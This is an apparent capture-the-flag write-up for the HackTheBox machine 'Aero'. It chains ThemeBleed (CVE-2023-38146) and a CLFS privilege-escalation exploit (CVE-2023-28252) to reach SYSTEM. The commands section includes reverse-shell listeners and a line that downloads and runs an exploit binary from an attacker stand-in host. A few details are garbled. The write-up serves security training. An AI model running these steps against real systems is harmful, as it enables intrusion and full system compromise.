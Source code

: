 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB) 
- **Exploits Used**:
    
    - 🎨 **ThemeBleed** (CVE‑2023‑38146) – race‑condition on `.msstyles` _vrf.dll loading
    - 🐛 **CLFS EoP** (CVE‑2023‑28252) – Common Log File System token stealing
    - ⚙️ Local PrivEsc via Nokoyawa-style CLFS exploit

**Open Ports:**

- [80](HTTP)/tcp – HTTP (IIS + ARR/3.0)

---

## 🧠 TLDR

1. **Recon & Static** – Found IIS 10, a theme‑upload form allowing `.theme`/`.themepack` only.
2. **RCE via ThemeBleed** – Built a malicious DLL exporting `VerifyThemeVersion`, packaged it into a theme with ThemeBleed POC, ran the built‑in SMB server, uploaded to trigger a reverse shell as `aero\sam.emerson` 🎉
3. **EoP to SYSTEM** – Retrieved and reviewed CVE‑2023‑28252_POC, patched to drop a Base64‑powered PowerShell reverse shell, ran it on the box to escalate from user to `NT AUTHORITY\SYSTEM` 🚀
4. **Beyond Root** – Discovered use of `FileSystemWatcher` in `watchdog.ps1` for auto‑launching uploaded themes, showcasing automation via PowerShell events.
    

---

## 🧰 Tools

- **Port/Content Discovery**: `nmap`, `feroxbuster`
- **ThemeBleed Exploit**: [ThemeBleed.exe](https://github.com/example/ThemeBleed) (make_theme/make_themepack + servere
- **DLL Builder**: Visual Studio (C++ DLL project exporting `VerifyThemeVersion`)
- **Networking**: `nc -lvnp` for callback listener
- **EoP Exploit**: CLFS PoC (CVE‑2023‑28252) from Fortra
- **PowerShell**: `Invoke‑WebRequest`, `FileSystemWatcher`, `Convert::ToBase64String`

---

## 🚀 Commands

```bash
# 1) Recon
nmap -p- --min-rate 10000 -oA aero-full 10.10.11.237
nmap -p80 -sCV     10.10.11.237

# 2) Build & Deploy ThemeBleed RCE
#   • Compile ReverseShellDLL.dll exporting VerifyThemeVersion()
#   • Copy into POC repo: data/stage_3/
#   • Generate theme: 
./ThemeBleed.exe make_theme YOUR_IP exploit.theme
#   • Disable local SMB on attacker host (stop Server service) / reboot
#   • Run SMB server:
./ThemeBleed.exe server
#   • Upload exploit.theme via web form
nc -lvnp 4444           # catch shell as sam.emerson
```

```
# 3) Privilege Escalation via CLFS
#   • Exfiltrate CVE summary PDF:
[convert]::ToBase64String((Get-Content CVE-2023-28252_Summary.pdf -Encoding byte))
#   • Build CLFS exploit in VS (Release, MBCS)
#   • Download & execute on target:
iwr http://YOUR_IP/clfs_eop.exe -outfile clfs_eop.exe
.\clfs_eop.exe         # drops SYSTEM reverse shell

nc -lvnp 9001           # catch SYSTEM shell

# 4) Beyond Root – Automation Insight
#   • Review watchdog.ps1 using FileSystemWatcher in C:\inetpub\aero\uploads
```

---

## 📚 Lessons Learned

- 🎨 **ThemeBleed** shows how signed‐DLL checks can be raced via filesystem swap (_vrf.dll).
    
- 🐛 **CLFS Token Stealing** is a powerful kernel escape when patch KB5025224 is missing.
    
- ⚙️ **PowerShell FileSystemWatcher** eventing can automate “clicking” actions server‑side.
    
- 🛠️ Always inspect uploads & backups for local enum or creds, then chain to EoP.
    

---

## 📖 References

- [ThemeBleed (CVE‑2023‑38146) POC](https://github.com/0xdf/ThemeBleed)
    
- [Fortra CLFS EoP (CVE‑2023‑28252)](https://github.com/fortra/clfs-eop)
    
- [Microsoft Security Update Guide](https://msrc.microsoft.com/update-guide)
    
- [HTB Aero Discussion & Walkthrough](https://0xdf.gitlab.io/2023/09/28/htb-aero.html)
